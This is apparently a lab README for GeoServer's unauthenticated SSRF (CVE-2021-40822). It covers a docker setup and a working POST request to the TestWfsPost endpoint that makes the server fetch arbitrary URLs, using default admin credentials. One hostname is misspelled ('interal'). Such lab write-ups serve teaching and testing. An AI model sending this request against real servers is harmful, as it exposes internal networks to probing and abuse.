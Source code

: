 # GeoServer Unauthenticated SSRF Vulnerability (CVE-2021-40822)

[中文版本(Chinese version)](README.zh-cn.md)

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In GeoServer versions prior to 2.19.3, 2.18.5, and 2.17.6, there is a Server-Side Request Forgery (SSRF) vulnerability in the WMS GetMap request. An attacker can exploit this vulnerability to make requests to internal or external services through the GeoServer server.

References:

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-40822>

## Vulnerable Environment

Execute the following command to start a GeoServer 2.19.1 server:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

The vulnerability exists in the `TestWfsPost` endpoint. An attacker can use the `url` parameter to make the server send requests to arbitrary URLs. The endpoint accepts several parameters:

- `url`: The target URL that GeoServer will send request to
- `body`: The request body to be sent. If this parameter is empty, GeoServer will send a GET request; if it contains any value, GeoServer will send a POST request
- `username`: Username for basic authentication (optional)
- `password`: Password for basic authentication (optional)

Send the following request to the `TestWfsPost` endpoint:

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
```

Use `google.com` as the target URL, and you will see that response from `google.com` is returned.

![](1.png)

> Note: The host in the `url` parameter must match the `Host` header in your request, otherwise GeoServer will return an error. For example, if the domain in `url` parameter is `internal`, then the `Host` header should also be `internal`.
